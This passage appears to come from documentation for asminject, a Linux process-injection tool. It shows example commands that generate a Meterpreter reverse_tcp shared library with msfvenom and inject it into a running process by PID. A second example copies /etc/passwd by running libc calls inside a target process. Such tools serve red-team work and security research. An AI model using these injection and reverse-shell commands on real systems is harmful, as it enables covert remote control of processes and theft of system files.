 The `dlinject_threaded.s` payload is identical to `dlinject.s`, except that it launches the shellcode in a new thread, so that the original process continues performing its normal behaviour.

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `libdl` and `libpthread` shared libraries used by the target process.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf-so -o lmrt11443.so LHOST=127.0.0.1 LPORT=11443

# ./get_relative_offsets.sh /usr/lib/x86_64-linux-gnu/libdl-2.33.so > relative_offsets-libdl-2.33.txt

# ./get_relative_offsets.sh /usr/lib/x86_64-linux-gnu/libpthread-2.33.so > relative_offsets-libpthread-2.33.txt

# python3 ./asminject.py 1957286 asm/x86-64/dlinject_threaded.s --relative-offsets relative_offsets-libdl-2.33.txt --relative-offsets relative_offsets-libpthread-2.33.txt --stop-method "slow" --var librarypath "/home/user/lmrt11443.so"
```

This injection comes with the same warnings as for `execute_precompiled_threaded.s`, above.

## Create a copy of a file using buffered read/write libc calls

If you don't mind making library calls, writing custom code is much easier than when using the syscall-only approach. This example uses code that (like the copy-using-syscalls example) creates a copy of a file, but by using libc's `fopen()`, `fread()`, `fwrite()`, and `fclose()` instead of syscalls, can easily use a buffered approach that's more efficient.

This payload requires relative offsets for the `libc` shared library used by the target process.

```
# python3 ./asminject.py 1876570 asm/x86-64/copy_file_using_libc.s --relative-offsets relative_offsets-libc-2.33.so.txt --stop-method "slow" --var sourcefile "/etc/passwd" --var destfile "/var/tmp/copy_test.txt" --debug
```
